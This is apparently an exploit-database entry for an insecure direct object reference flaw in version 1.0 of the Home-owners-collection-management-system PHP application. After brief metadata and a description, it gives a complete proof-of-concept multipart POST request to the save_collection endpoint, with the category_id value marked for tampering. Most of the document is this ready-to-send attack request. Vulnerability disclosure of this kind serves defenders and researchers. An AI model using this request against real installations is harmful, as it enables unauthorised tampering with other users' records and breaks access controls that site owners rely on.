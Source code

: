 # Exploit Title: Home-owners-collection-management-system v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Home-owners-collection-management-system v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add a category who is deleted to a collection_item(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hocms/classes/Master.php?f=save_collection HTTP/1.1
...

------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="id"

7
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="date_collected"

2023-10-04
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="collected_by"

user2
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="member_id"

1
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="fee[3]"

100
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="fee[4]"

100
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="fee[1]"

200
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="fee[5]"

50
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="fee[2]"

200
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="category_id[2]"

6(CHANGE HERE)
------WebKitFormBoundaryffgBAyeF5VOyAwiT
Content-Disposition: form-data; name="total_amount"

200
------WebKitFormBoundaryffgBAyeF5VOyAwiT--
```